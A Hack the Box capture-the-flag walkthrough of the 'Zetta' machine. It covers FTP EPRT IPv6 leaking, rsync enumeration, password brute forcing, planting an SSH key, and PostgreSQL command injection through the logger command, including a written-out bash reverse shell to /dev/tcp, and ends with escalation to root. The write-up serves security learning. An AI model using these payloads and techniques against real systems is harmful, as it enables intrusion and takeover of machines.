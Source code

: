 +++
author = "Nick"
categories = ["hack the box", "ftp", "ipv6", "RFC2428", "rsync", "ssh", "reverse shell", "psql", "postgress", "brute force", "RCE"]
date = 2020-02-22T11:00:00Z
description = ""
draft = false
thumbnail = "/images/2019/10/zetta.png"
slug = "hack-the-box-zetta"
summary = "Welcome back! Today we are going to do the box Zetta. Lets dig i"
tags = ["hack the box", "ftp", "ipv6", "RFC2428", "rsync", "ssh", "reverse shell", "psql", "postgress", "brute force", "RCE"]
title = "Hack the Box - Zetta"

+++


Welcome back! Today we are going to do the box Zetta. Lets dig in!

As always, we start with an ```nmap``` scan: ```nmap -sC -sV -oA zetta_initial_scan 10.10.10.156```. We get a small set of results.

```
Nmap scan report for 10.10.10.156
Host is up (0.052s latency).
Not shown: 997 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Pure-FTPd
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10 (protocol 2.0)
| ssh-hostkey: 
|   2048 2d:82:60:c1:8c:8d:39:d2:fc:8b:99:5c:a2:47:f0:b0 (RSA)
|   256 1f:1b:0e:9a:91:b1:10:5f:75:20:9b:a0:8e:fd:e4:c1 (ECDSA)
|_  256 b5:0c:a1:2c:1c:71:dd:88:a4:28:e0:89:c9:a3:a0:ab (ED25519)
80/tcp open  http    nginx
|_http-title: Ze::a Share
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We repeat the scan but this time with all ports. The same results come back. So let's see what is being hosted on port 80.

![](/images/2019/10/image-66.png)

We have some type of sharing service. While looking through the source code we spot a string variable.

![](/images/2019/10/image-67.png)

This generates our username and password for the sharing site. We can use this to connect via ```FTP```. You seemingly can use any 32 length character and access the ```FTP``` site as long as the username and password match.

We connect to the ```FTP``` service and are pretty much unable to do anything.

![](/images/2019/10/image-68.png)

We do see that the server supports [RFC2428](https://tools.ietf.org/html/rfc2428). Which means that there could be some IPv6 trickery afoot. So the first thing we will do is to connect to the ```FTP``` service via ```netcat```. This way we can issue the ```EPRT``` commands. We will also setup a ```netcat``` listener on our machine and use the ```-6``` flag to enable IPv6 listening.

![](/images/2019/10/image-69.png)

After we've connected to the service, we will then attempt to download a dummy file called '1' from the server. If all goes well, we should see the above. A retrun connection leaking the machines IPv6 address.

![](/images/2019/10/image-70.png)

The breakdown of the ```EPRT``` command is:
```EPRT``` is using the protocol.
```|2|``` signifies use of IPv6.
```dead:beef:2::10ab``` is our IPv6 address.
```|5555|``` is the port we are telling ```EPRT``` to open a data connection to. Which also happens to be where our ```netcat``` is listening.

We do see the connection made and the machines IPv6 address leaked to us. With this info we can rescan the machine with ```nmap``` but specify IPv6 scan. We use ```nmap -p- -6 dead:beef::250:56ff:febd:923b```. We see one additional port open, port ```8730```.

![](/images/2019/10/image-71.png)



When we connect to the port we see that it is an Rsync server.

![](/images/2019/10/image-72.png)

Now that we know it's an accessable rsync server. We'll try and list the available shares. Use the ```--list-only``` flag for ```rsync```. After a few tries and failures, it seems we need to add this IPv6 address to our hosts list.

![](/images/2019/10/image-73.png)

After we add the IP to our Hosts file, we get back some listings. This looks like the root of a Linux file system. We try to 'sync' to each location shown and get an error. Since it resembled a file system, I tried to access tmp as well as etc. And we could read the content of the etc directory. So we'll sync the content of that file back and see what might be in it.

After sifting through the files. I came across an interesting section in the ```rsyncd.conf``` file.

![](/images/2019/10/image-74.png)

We see that this is also a hidden share. The share requires a username of Roy and a password. We'll have to write a quick script to automate this processes since the built in nmap rsync brute didn't work. There are multiple ways to approach this. I chose to make a small loop around ```rockyou.txt``` and pass it to ```sshpass``` to make the connection. It probably could have been a bit prettier doing it in ```python``` but this was functional. After letting that itterate through, we finally get a password.

Now we can add our ```SSH``` key to the ```authorized_keys file``` and sync it back to the server. We use: ```rsync -av ~/Documents/htb/zetta/rsync/roy_home rsync://roy@zetta6.htb:8730/home_roy```.

![](/images/2019/10/image-75.png)

Looks like our upload took. Lets see if we can SSH.

![](/images/2019/10/image-76.png)

We are, we can snag our user.txt if you haven't already gotten it from a previous rsync ;).

We can now start internal enumeration. We would normally get started with ```LinEnum``` and ```pspy64``` to see if there are any low hanging fruit. However, we don't have immediate access to ```curl```, ```wget``` and remote use of ```scp``` is requiring a password. So with no quick and easy mass enumeration, we do it manually. When we are looking through files, the ```.tudu.xml``` file holds some hints. We see that the postgress database running needs to be checked. We see format for the shared password scheme. We also see that a syslog database is suppose to push events to the postgress database. With these things in mind, we start to look at them one at a time.

We try to take a peek at the ```pgsql.conf``` file located in ```/etc/rsyslog.d```. Permission denied. We do however see that there is a ```.Git``` directory. With some luck we can clone the repo and see the config file.

![](/images/2019/10/image-77.png)

We go to read the file and immediately see a password string:

![](/images/2019/10/image-78.png)

We will try to connect to the database using those.

![](/images/2019/10/image-79.png)

No such luck. Doing some research about local7 logging lead me to [this RCE](https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5#targetText=Authenticated%20Arbitrary%20Command%20Execution%20on%20PostgreSQL%209.3%20%3E%20Latest&targetText=PostgreSQL%2C%20commonly%20known%20as%20Postgres,Linux%20and%20Windows%20versions%20available.). It seems we can interact with the logger using the ```logger``` command. In conjunction with the above RCE we can use this to leverage the system for a shell. The steps we'll take are create a file made by the service, change the permissions of the file, inject a reverse shell and have it call back to us as the service account.

The file need to be in a writable place, so ```tmp``` it is. We create a file called ```shell```. In this file we will place the commands we the logger to execute. First we'll have the logger print the contents of the home directory to a file called ```hi```:

```logger -p local7.info "',now());CREATE table if not exists test(t TEXT);COPY test(t) from program $$whoami > /tmp/hi; $$;-- -"```

Then we can call the ```shell``` file by doing this:

```logger -p local7.info "$(cat shell.file)"```

![](/images/2019/10/image-99.png)

It worked. So now we can create a reverse shell the same way.

```logger -p local7.info "',now());CREATE table if not exists test(t TEXT);COPY test(t) from program $$bash -i >& /dev/tcp/10.10.15.236/4444 0>&1 > /tmp/hi; $$;-- -"```

We then need to have psql change the permissions on the file:

```logger -p local7.info "',now());CREATE table if not exists test(t TEXT);COPY test(t) from program $$chmod 777 /tmp/hi; $$;-- -"```

The first time I tried this I wasn't able to get a shell back due to permissions. Once we execute them all we get a shell back.

![](/images/2019/10/image-96.png)

Now that we have a shell ps postgres. We start to enumerate again. During my enumeration I checked for the location of the ```.psql_history``` file and parsed through it. It was a pretty short file:

![](/images/2019/10/image-97.png)

Now if we try this password it doesn't work. However if we recall back to our ```tudu.xml``` file we have that shared password scheme. So with some luck the format of ```secret``` @ ```userid``` is still in place and the password hasn't been changed. We can ```su``` to root using this knowledge. Sure enough it does!

![](/images/2019/10/image-98.png)

At first I thought my session was hanging but I forgot it was a remote shell and it wouldn't give me verification back when I switch users. There we have it, the root flag!

Hopefully something was learned. If you found this write-up helpful, consider sending some respect my way: [Lovecore's HTB Profile](https://www.hackthebox.eu/home/users/profile/95635).

